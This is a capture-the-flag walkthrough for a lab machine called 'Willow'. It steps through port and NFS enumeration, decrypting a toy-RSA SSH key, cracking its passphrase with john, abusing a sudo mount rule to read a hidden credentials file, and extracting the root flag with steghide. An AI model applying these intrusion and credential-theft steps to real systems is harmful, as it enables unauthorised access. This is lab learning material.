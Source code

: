 # Willow - Medium

* Add ```willow.thm``` to ```/etc/hosts``` and start scan - ```nmap -T4 -p- -A -Pn -v willow.thm```

* Open ports & services:

  * 22/tcp - ssh - OpenSSH 6.7p1 Debian 5 (protocol 2.0)
  * 80/tcp - http - Apache httpd 2.4.10 ((Debian))
  * 111/tcp - rpcbind 2-4 (RPC #100000)
  * 2049/tcp - nfs_acl 2-3 (RPC #100227)

* Starting with enumeration on port 80:

  ```sh
  gobuster dir -u http://willow.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak,jpg,zip,bac,sh,png,md,jpeg -t 25
  # directory scanning
  # this does not give anything

  ffuf -c -u "http://willow.thm" -H "Host: FUZZ.willow.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 25 -fs 20474 -s
  # subdomain enum

  gobuster vhost -u http://willow.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
  # vhost enum
  # no subdomains or vhosts found
  ```

* The webpage itself, titled "Recovery Page", contains a huge chunk of numbers; not sure what it could be used for.

* Using CyberChef, when decoded from Hex with no delimiter, we get a message - "Hey Willow, here's your SSH Private key -- you know where the decryption key is!", followed by another big message with chunks of numbers - the numbers are in 4 or 5 digit groups.

* The above information gives us the username 'Willow', but we would have to search further for the decryption key

* Enumerating NFS:

  ```sh
  showmount -e willow.thm
  # shows /var/failsafe is available to be mounted

  mkdir target-share

  sudo mount -t nfs willow.thm:/ ./target-share/ -o nolock
  # mount the share

  cd target-share

  tree .
  # we have rsa_keys file

  cd var/failsafe

  sudo cp rsa_keys ~/rsa_keys

  cd

  # unmount the share
  sudo umount ./target-share

  # inspect the keys file
  cat rsa_keys
  ```

* The 'rsa_keys' file contains the following text:

  ```text
  Public Key Pair: (23, 37627)
  Private Key Pair: (61527, 37627)
  ```

* While these do look like variables to be used when generating a SSH key, [this blog on RSA encryption](https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/) given in the hint goes into more detail

* According to the above blog, we have the following info so far:

  * Encryption key (public exponent), e = 23
  * Decryption key (private exponent), d = 61527
  * Modulus, n = 37627

* Following the methodology given in the blog, we can reverse-engineer the script and create our own short script:

  ```py
  # variables known to us
  e = 23
  d = 61527
  n = 37627
  message = ""

  # store ciphertext in file 'to_decrypt.txt' in same directory
  # opening in read mode
  file = open('to_decrypt.txt', 'r')

  # following the logic highlighted in blog
  # to decrypt ciphertext with public exponent, private exponent and modulus

  for line in file:
      listNumbers = [int(i) for i in line.split()]
      for number in listNumbers:
          decr = (number ** d) % n
          message += chr(decr)
      print(message)
  ```

* On running the script, with the ciphertext kept in a file in the same directory, it runs for a while to print the decrypted RSA key - we can store this in a file and try to login:

  ```sh
  vim willow_rsa
  # copy and paste the decrypted output

  chmod 600 willow_rsa

  ssh willow@willow.thm -i willow_rsa
  # this requires a passphrase

  ssh2john willow_rsa > hash_willow

  john --wordlist=/usr/share/wordlists/rockyou.txt hash_willow
  # this gives us the passphrase 'wildflower'

  ssh willow@willow.thm -i willow_rsa
  # the passphrase works
  # but we get another error
  # "sign_and_send_pubkey: no mutual signature supported"

  # we need to add SSH-RSA as an accepted type

  ssh willow@willow.thm -i willow_rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa
  # this works with passphrase
  ```

* We get access as 'willow'; the user flag is an image, so we need to transfer this to our machine:

  ```sh
  # in attacker machine
  scp -i willow_rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa willow@willow.thm:/home/willow/user.jpg .
  # this image shows user flag

  # back in willow ssh
  ls -la /home
  # we only have 'willow' user

  ls -la
  # we can continue enumeration

  sudo -l
  # shows we can run this as sudo
  # (ALL : ALL) NOPASSWD: /bin/mount /dev/*

  # check for anything in /mnt directory
  ls -la /mnt

  ls -la /mnt/creds
  # this is empty

  lsblk
  # /bin/lsblk: Permission denied
  # we have to find another way
  
  # check /dev
  ls -la /dev

  # this contains a 'hidden_backup' file
  # but we cannot read this

  # we can use the mount privileges from 'sudo -l'

  mkdir /tmp/target-mount

  sudo /bin/mount /dev/hidden_backup /tmp/target-mount

  cd /tmp/target-mount

  ls -la
  # we have a file here

  cat creds.txt
  ```

* This contains the creds for both root and 'willow' user - we can switch users now:

  ```sh
  su root
  # switch to root user

  ls -la /root

  cat /root/root.txt
  # this does not give us the root flag
  # it says the flag was given some time ago

  grep -r / "THM" 2>/dev/null
  # this does not give anything

  lsblk
  # nothing here as well

  # the only thing we have is the image file
  # we can check that

  # in attacker machine
  steghide extract -sf user.jpg
  # this works with root password from earlier
  # extracts root flag
  ```

